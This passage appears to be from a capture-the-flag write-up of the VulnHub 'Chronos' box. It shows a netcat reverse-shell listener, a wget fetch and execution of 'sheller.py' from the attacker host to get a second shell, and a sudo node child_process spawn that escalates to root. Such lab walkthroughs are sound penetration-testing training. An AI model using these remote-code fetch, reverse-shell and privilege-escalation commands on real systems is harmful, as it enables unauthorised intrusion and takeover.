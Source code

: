 We can upload and execute that to get a new shell. Upload and execute:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/chronos]
└─# nc -nvlp 1234                                           
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.85] 47782
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@chronos:/opt/chronos$ cd /dev/shm
cd /dev/shm
www-data@chronos:/dev/shm$ wget http://192.168.1.210:9090/sheller.py
wget http://192.168.1.210:9090/sheller.py
--2021-08-15 09:22:55--  http://192.168.1.210:9090/sheller.py
Connecting to 192.168.1.210:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 323 [text/x-python]
Saving to: ‘sheller.py’

sheller.py          100%[===================>]     323  --.-KB/s    in 0s      

2021-08-15 09:22:55 (7.02 MB/s) - ‘sheller.py’ saved [323/323]

www-data@chronos:/dev/shm$ python3 ./sheller.py
python3 ./sheller.py
www-data@chronos:/dev/shm$
{% endhighlight %}

Host and then listen:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/chronos]
└─# updog
[+] Serving /opt/vulnhub/chronos...
 * Running on http://0.0.0.0:9090/ (Press CTRL+C to quit)
192.168.1.85 - - [15/Aug/2021 05:22:54] "GET /sheller.py HTTP/1.1" 200 -
^C
[!] Exiting!
┌──(root💀kali)-[/opt/vulnhub/chronos]
└─# nc -nvlp 1237                                                                                 
listening on [any] 1237 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.85] 53990
bash: cannot set terminal process group (789): Inappropriate ioctl for device
bash: no job control in this shell
imera@chronos:/opt/chronos-v2/backend$
{% endhighlight %}

## GTFO
Root is [straightforward](https://gtfobins.github.io/gtfobins/node/#sudo), but makes sense in the context of the box:

{% highlight shell %}
imera@chronos:/opt/chronos-v2/backend$ sudo -l
sudo -l
Matching Defaults entries for imera on chronos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User imera may run the following commands on chronos:
    (ALL) NOPASSWD: /usr/local/bin/npm *
    (ALL) NOPASSWD: /usr/local/bin/node *
imera@chronos:/opt/chronos-v2/backend$ sudo -u root /usr/local/bin/node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
<child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
python3 -c 'import pty;pty.spawn("/bin/bash");'
root@chronos:/opt/chronos-v2/backend# id;hostname;date